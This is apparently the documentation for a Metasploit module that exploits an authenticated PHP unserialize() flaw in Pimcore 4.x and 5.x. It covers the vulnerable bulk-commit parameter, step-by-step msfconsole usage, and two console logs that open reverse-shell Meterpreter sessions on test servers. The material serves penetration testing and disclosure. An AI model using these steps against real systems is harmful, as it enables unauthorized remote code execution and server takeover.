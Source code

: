 ## Description

This module exploits a PHP unserialize() in Pimcore before 5.7.1 to execute arbitrary code. An authenticated user with "classes" permission could exploit the vulnerability.

The vulnerability exists in the "ClassController.php" class, where the "bulk-commit" method make it possible to exploit the unserialize function when passing untrusted values in "data" parameter.

Tested on Pimcore 5.6.6, 5.6.5, 5.6.4, 5.6.3, 5.6.2, 5.6.1, 5.6.0, 5.5.4, 5.5.3, 5.5.2, 5.5.1, 5.4.4, 5.4.3, 5.4.2, 5.4.1, 5.4.0 with the Symfony unserialize payload

Tested on Pimcore 4.6.5, 4.6.4, 4.6.3, 4.6.2, 4.6.1, 4.6.0, 4.5.0, 4.4.3, 4.4.2, 4.4.1, 4.4.0, 4.3.1, 4.3.0, 4.2.0, 4.1.3, 4.1.2, 4.1.1, 4.1.0, 4.0.1, 4.0.0 with the Zend unserialize payload

## Vulnerable Application

Affecting Pimcore, version 5.x <= 5.6.6 and 4.x

## Verification Steps

1. Setting up a working installation of Pimcore 4.x or 5.x
2. Start `msfconsole`
3. `use exploit/multi/http/pimcore_unserialize_rce`
4. `set RHOST <IP>`
5. `set USERNAME <USERNAME>`
6. `set PASSWORD <PASSWORD>`
7. `check`
8. You should see `The target service is running, but could not be validated.`
9. `exploit`
10. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to Pimcore installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on Pimcore 5.6.6

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8566
rport => 8566
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password pimcore
password => pimcore
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8566 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:pimcore
[*] Pimcore version: 5.6.6
[*] Pimcore build: 9722d19576f9e49969d4a3708e045fa481eaad02
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/var/tmp/bulk-import.tmp
[*] Selected payload: Pimcore 5.x (Symfony unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:34128) at 2019-04-07 12:04:08 +0200
[!] This exploit may require manual cleanup of '/var/www/html/var/tmp/bulk-import.tmp' on the target

meterpreter > 
[+] Deleted /var/www/html/var/tmp/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```

### Tested on Pimcore 4.6.5

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8465
rport => 8465
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password P1mc0r3_4dm1n
password => P1mc0r3_4dm1n
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8465 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:P1mc0r3_4dm1n
[*] Pimcore version: 4.6.5
[*] Pimcore build: 4123
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/website/var/system/bulk-import.tmp
[*] Selected payload: Pimcore 4.x (Zend unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:57882) at 2019-04-07 12:00:20 +0200
[+] Deleted /var/www/html/website/var/system/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```